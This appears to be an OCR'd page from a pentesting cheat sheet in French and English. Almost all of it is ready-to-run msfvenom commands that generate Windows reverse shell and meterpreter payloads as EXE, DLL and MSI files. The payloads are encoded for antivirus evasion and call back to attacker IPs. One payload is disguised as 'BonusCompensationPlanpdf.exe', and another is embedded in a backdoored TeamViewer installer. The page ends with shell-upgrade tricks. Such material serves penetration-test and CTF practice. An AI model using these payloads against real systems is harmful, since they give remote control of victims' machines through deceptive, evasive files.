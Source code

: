 Stageless Windows reverse shell #EXE

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe > BonusCompensationPlanpdf.exe
```

Staged Windows x64 meterpreter reverse #DLL

```BASH
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e x86/shikata_ga_nai -i 10 -f dll > charge.dll
```

Staged Windows x64 meterpreter reverse #MSI

```BASH
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT
-e x86/shikata_ga_nai -i 10 -f msi > charge.msi
```

### AV EVASION

Stageless Windows x86 avec Template de programme et encodé en Shikata

```shell-session
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```


---


# Importer un Shell interactif #TTY


## LINUX

### Python TTY Shell Trick

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

CTRL+Z

stty raw -echo; fg
```

```bash
echo os.system('/bin/bash')
```



Spawn interactive shell with script
